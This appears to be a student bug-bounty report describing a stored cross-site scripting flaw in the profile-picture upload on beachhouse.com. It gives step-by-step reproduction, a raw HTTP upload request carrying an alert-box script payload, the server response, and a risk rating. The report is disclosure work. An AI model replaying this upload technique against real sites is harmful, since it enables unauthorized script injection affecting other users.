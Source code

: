 ﻿# <a name="gjdgxs"></a>**Major Project - Bug hunting on any target of openbugbounty**
##
### <a name="30j0zll"></a><a name="1fob9te"></a>**Team Members - Rajeevkumar Ray,Himani prajapati, Charutha A,Lalsandam**
## <a name="3znysh7"></a>**Issue Description**
- Target website we got on [openbugbounty](http://openbugbounty.org) - [beachhouse.com](http://beachhouse.com)
- Cross-Site Scripting (XSS) attacks are a type of injection, in which malicious scripts are injected into otherwise benign and trusted web sites. XSS attacks occur when an attacker uses a web application to send malicious code, generally in the form of a browser side script, to a different end user.
## <a name="2et92p0"></a>**Issue Identified**
- The consultant identified that the update profile picture is vulnerable to cross site scripting, it is possible to upload an image with a MIME type of text/html this is then stored on the user’s profile as an XSS payload, the outline below demonstrates the steps taken to exploit and reproduce.
## <a name="tyjcwt"></a>**Risk Breakdown**
- Risk: **High**
- Difficulty to Exploit: **Medium**
- CVSS2 Score: [**7.9**](https://nvd.nist.gov/cvss.cfm?calculator&version=2&vector=\(AV:N/AC:M/Au:S/C:C/I:C/A:N\))
## <a name="3dy6vkm"></a>**Steps to Reproduce**
The following steps indicate a proof of concept outlined in three(3) steps to reproduce and execute the issue.

**Step 1:** Navigate to <https://www.beachhouse.com/portal/reg.php> and select edit as shown in screenshot attached below.

**Step 2:** Modify the profile image request with a local proxy, in this case the consultant is using Burp Suite. Change the Content type from image to text/html as shown in the post request:

POST /file/upload/ HTTP/1.1
Host: beachhouse.com
---snip----

-----------------------------900627130554
Content-Disposition: form-data; name="stored\_XSS.jpg"; filename="stored\_XSS.jpg"
Content-Type: text/html

<script>alert('ZephrFish')</script>
-----------------------------900627130554

When this is sent, the following response is shown:

HTTP/1.1 200 OK
Date: Tue, 02 May 2023 14:31:44 GMT
---snip---

{"url": "https://example.com/56fc3b92159006271305543ef45a04452e8e45ce4/stored\_XSS.jpg?Expires=1465669904&Signature=dNtl1PzWV&Key-Pair-Id=APKAJQWLJPIV25LBZGAQ", "pk": "56fc3b92159006271305543ef45a04452e8e45ce4/stored\_XSS.jpg", "success": true}

**Step 3:** The file has been uploaded to a Application and is hyperlinked to from the profile page. By simply following the link to the image which in this case is:

The payload is executed, thus this demonstrates the issue is stored cross site scripting.
## <a name="1t3h5sf"></a>**Affected Demographic**
This issue will affect all users on the site who view the profile of the attacker, when the image is rendered the payload is executed instead of a profile image. Additionally when the malicious user posts anything on the forums the payload will execute.
## <a name="4d34og8"></a>**References**
For more information check out reference <https://www.owasp.org/index.php/Cross-site_Scripting_(XSS)>.

- [1] [OWASP XSS Explained](https://www.owasp.org/index.php/Cross-site_Scripting_\(XSS\))
- [2] [OWASP XSS Prevention Cheat Sheet](https://www.owasp.org/index.php/XSS_\(Cross_Site_Scripting\)_Prevention_Cheat_Sheet)
